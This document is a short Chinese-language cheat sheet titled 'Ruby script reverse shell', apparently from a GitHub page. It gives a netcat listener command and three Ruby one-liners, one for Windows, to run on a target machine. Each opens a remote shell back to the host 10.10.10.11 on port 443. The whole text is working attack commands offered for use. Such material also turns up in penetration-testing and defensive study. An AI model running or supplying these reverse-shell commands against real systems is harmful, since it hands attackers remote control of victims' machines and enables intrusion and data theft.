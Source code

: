# Ruby脚本反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.11",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.11","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

```

> Windows平台如下：

```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.10.10.11","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

```

